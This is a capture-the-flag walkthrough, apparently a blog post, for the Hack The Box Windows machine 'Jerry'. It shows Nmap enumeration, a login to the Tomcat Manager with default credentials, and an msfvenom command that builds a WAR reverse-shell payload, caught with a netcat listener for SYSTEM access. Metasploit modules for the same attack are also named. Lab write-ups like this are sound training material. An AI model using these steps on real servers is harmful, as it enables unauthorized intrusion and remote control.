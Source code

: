 ## Hack The Box - Jerry (10.10.10.95)
Jerry is a medium box from Hack The Box and it is a Windows machine. This machine demonstrates poor practice in the use of default credentials and a lack of file upload sanitization.  
Our methodology will be to enumerate until we find an attack surface to obtain our initial foothold. In this scenario, we may not need to perform privilege escalation due to the nature of our exploitation. Watch the video walkthough on Youtube HERE or read along.

### ENUMERATION:
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use nmapAutomator, although you can run a traditional Nmap scan.

```markdown
# Nmap 7.91 scan initiated Sat Dec 18 13:22:41 2021 as: nmap -sC -sV -Pn -oA nmap 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.053s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 18 13:22:57 2021 -- 1 IP address (1 host up) scanned in 15.29 seconds
```

I notice from our scan that port 8080 is hosting Apache Tomcat. Let’s go ahead and visit our webpage and poke around. 
[homepage1.png]
It seems to be a default installation as hinted by the top banner “If you’re seeing this, you’ve succesfully installed Tomcat. Congradulations!” We notice the option on the right hand side to access either Server Status, Manager App, or Host Manager – all very intresting options and a possible attack surface. 
Upon clicking on Manager App I am presented with a login box: 
[login_prompt2.png]
Considering this is a default installation, defualts credentials would normally be a good start. I guessed the wrong credentials on my first login attempt, but was promptly greeted with a error page which provided the default credentials of tomcat:s3cret.
[default_credentials3.png]
I can now login to the Tomcat Web Application Manager. If you’re unfamiliar with this tool, the Tomcat Manager is a web application that can be used to interactively to deploy and manage web applications. With that being said, upon furthur inspection of this web page we notice at the bottom more detailed information about our server and the ability to deploy .WAR files directly from this page. We have found our  attack surface for the initial foothold. 


### EXPLOITATION: 
If you’re unfamiliar with a .WAR file, it is simply a .JAR file but contains only web related Java files like Servlets, JSP, and HTML. We will be exploiting the ability to upload and deploy these .WAR files directly from the Manager App webpage to our victim machine by crafting a malicous .WAR file as our payload to call back to our attacker machine. 

Time to get our intial foothold. We will craft our payload using msfvenom utilizing the ‘java/jsp_shell_reverse_tcp’ payload formated as a war file. Before executing the following command, ensure that 10.10.10.10. is replace with your attacker machine’s IP address. 
Msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o Payload.war
Now let us upload our shell via the Manager App web page.
[payload5.png]
We can now see our payload populate at the top of the page under Applications. In order to catch our reverse TCP shell we must set up a listener first. We will catch this reverse shell utilizing Netcat. To do this, execute the below command and ensure that the port listed in this command is the same declared in our msfvenom command from earlier. 
nc -lvnp 1337
With our listener established on port 1337 we may now execute our payload on the victim machine. To do so, simply click your payload’s name under the Application second of the web page.
[application6.png]
In a few seconds, we should have a connection on our Netcat listener providing us with a shell to our victim machine! 
[shell7.png]

### Privledge Eslcation:
In this scenario, privlege escalation is not required. Upon running the ‘whoami’ command on our victim’s machine we notice we are already NT AUTHORITY\SYSTEM. You can find your flags in C:\Users\Administrator\Desktop\flags listed under a file “2 for the price of 1.txt”. 

### Closing Remarks:
Although manual enumeration and exploitation was performed, metasploit modules do exist for this scenario. Utilize ‘auxilary/scanner/http/tomcat_mgr_login’ to bruce force the defualt login credentials for our Manager App followed by ‘multi/http/tomcat_mgr_upload’ to automatically craft, upload, and deploy your payload. Metasploit will create a listener and catch the reverse TCP shell for you! 
Thanks for reading! 


